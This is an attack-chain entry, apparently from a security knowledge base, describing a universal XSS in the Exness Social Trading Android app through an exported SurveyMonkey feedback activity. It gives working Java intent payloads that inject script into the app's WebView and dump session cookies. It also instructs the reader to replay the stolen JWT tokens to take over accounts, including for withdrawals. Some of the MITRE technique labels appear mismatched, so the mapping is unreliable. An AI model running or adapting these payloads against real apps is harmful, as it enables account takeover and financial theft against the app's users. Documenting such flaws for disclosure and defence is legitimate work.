

---
tags:
  - xss
  - android
  - mobile
  - account-takeover
  - cookie-theft
  - jwt-compromise
type: attack_chain
tools:
  - '[[tools/SurveyMonkey-Android-SDK]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Android
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Install-Exness-Social-Trading-App]]'
  - '[[procedures/Install-Malicious-Attacker-App]]'
  - '[[procedures/Launch-Malicious-Attacker-App]]'
  - '[[procedures/Launch-Exness-App-and-Initial-Payload]]'
  - '[[procedures/Inject-XSS-Payload-for-Cookie-Theft]]'
  - '[[procedures/Exfiltrate-User-Cookies-via-WebView]]'
step_count: 6
techniques:
  - '[[T1626.002]]'
  - '[[T1416]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:46:31.974Z'
description: >-
  Multi-stage attack exploiting improper SurveyMonkey SDK implementation in the
  Exness Social Trading Android app, enabling universal XSS to steal cookies and
  JWT tokens for account takeover.
skill_level: intermediate
impact_level: high
id: f532c021-163b-441e-96e5-a4bdb4b21898
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[T1626.002]]'
  - '[[T1416]]'
  - '[[JavaScript]]'
---
# Universal XSS via Exported SurveyMonkey Activity in Exness App Leading to Account Takeover

Multi-stage attack chain demonstrating exploitation of the Exness Social Trading Android app's improper SurveyMonkey SDK implementation, where an exported SMFeedbackActivity allows any app to inject malicious HTML into a WebView with JavaScript enabled, leading to universal XSS and theft of cookies/JWT tokens from shared WebView storage for account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/SurveyMonkey-Android-SDK]] (vulnerable component in target app)
- Custom malicious APK (built with Android Studio)

### Target Environment

- Android device (API level compatible with Exness app v2.45.8)
- Exness Social Trading app installed (com.exness.investments)
- No root required; side-loaded malicious app

### Initial Access Requirements

- Physical or remote access to install apps on the victim's device
- Victim must have Exness app installed and logged in via WebViews
- No network credentials needed beyond app functionality

## Detailed Attack Procedures

### Step 1: Install Exness Social Trading App
procedure: [[procedures/Install-Exness-Social-Trading-App]]

**Objective**: Ensure the vulnerable target app is installed and ready for exploitation.

**Instructions**: Download and install the latest version of the Exness Social Trading app from the Google Play Store to confirm the presence of the vulnerable SurveyMonkey SDK integration.

**Expected Output**: App installed successfully, version 2.45.8-release confirmed.

**Success Indicators**:
- App launches without errors
- User can log in to verify WebView cookie storage

### Step 2: Install Malicious Attacker App
procedure: [[procedures/Install-Malicious-Attacker-App]]

**Objective**: Deploy the custom app that will launch the exploit sequence against the target.

**Instructions**: Side-load or install the malicious APK containing the intent-launching code to target the exported SMFeedbackActivity.

**Expected Output**: Malicious app installed alongside Exness app.

**Success Indicators**:
- No installation conflicts
- Permissions granted for launching external activities

### Step 3: Launch Malicious Attacker App
procedure: [[procedures/Launch-Malicious-Attacker-App]]

**Objective**: Initiate the automated exploit chain from the attacker-controlled app.

**Instructions**: Open the malicious app, which will handle delays and intent launches to trigger the vulnerability.

**Expected Output**: Attacker app starts and begins the timed sequence.

**Success Indicators**:
- App UI appears or runs in background
- No crashes on launch

### Step 4: Launch Exness App and Initial Payload
procedure: [[procedures/Launch-Exness-App-and-Initial-Payload]]

**Objective**: Open the Exness app to ensure it's running and user session is active, then trigger the initial redirect in the WebView.

**Instructions**: Use [[commands/launch-exness-intent]] to start the Exness app, followed by a delayed launch of SMFeedbackActivity with benign HTML to load the Exness site.

```java
Intent exnessIntent = getPackageManager().getLaunchIntentForPackage("com.exness.investments"); startActivity(exnessIntent);
```

After 8 seconds, execute [[commands/initial-payload-intent]]:

```java
final Intent intent = new Intent("android.intent.action.VIEW"); intent.putExtra("smSPageHTML","<h1>Exploited</h1><script>location.href='/r/'</script>"); intent.putExtra("smSPageURL","https://my.exness.asia/r/"); intent.setClassName(createPackageContext("com.exness.investments",Context.CONTEXT_IGNORE_SECURITY),"com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity"); new Handler().postDelayed(new Runnable(){ @Override public void run(){ startActivity(intent); } },8000);
```

**Expected Output**: Exness app opens, WebView loads my.exness.asia/r/.

**Success Indicators**:
- Site loads in WebView
- No immediate crashes

### Step 5: Inject XSS Payload for Cookie Theft
procedure: [[procedures/Inject-XSS-Payload-for-Cookie-Theft]]

**Objective**: Relaunch the vulnerable activity with malicious JavaScript to execute XSS and access document.cookie.

**Instructions**: After 20 seconds from initial launch, execute [[commands/xss-payload-intent]] to inject the payload.

```java
final Intent intent2 = new Intent("android.intent.action.VIEW"); intent2.putExtra("smSPageHTML","<h1>Exploited</h1><script>document.write(document.cookie)</script>"); intent2.putExtra("smSPageURL","https://my.exness.asia/r/"); intent2.setClassName(createPackageContext("com.exness.investments",Context.CONTEXT_IGNORE_SECURITY),"com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity"); new Handler().postDelayed(new Runnable(){ @Override public void run(){ startActivity(intent2); } },20000);
```

**Expected Output**: WebView displays "Exploited" and writes out cookies.

**Success Indicators**:
- JavaScript executes without errors
- Cookie data visible in WebView

### Step 6: Exfiltrate User's Cookies via WebView
procedure: [[procedures/Exfiltrate-User-Cookies-via-WebView]]

**Objective**: Capture and exfiltrate stolen cookies/JWT tokens to enable account takeover.

**Instructions**: Monitor the WebView output for cookies from my.exness.asia and other sites in shared storage; use them to impersonate the user for financial actions.

**Expected Output**: Cookies including JWT tokens exposed, allowing replay attacks.

**Success Indicators**:
- JWT tokens obtained
- Successful login to Exness with stolen credentials

## Attack Chain Summary

### Key Achievements

1. Bypassed app isolation via exported activity to inject payloads
2. Achieved universal XSS across WebView cookie storage
3. Enabled full account takeover with access to portfolios and withdrawals

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1626.002]] Component with Known Vulnerability
- [[T1416]] Cross-site Scripting (XSS)
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
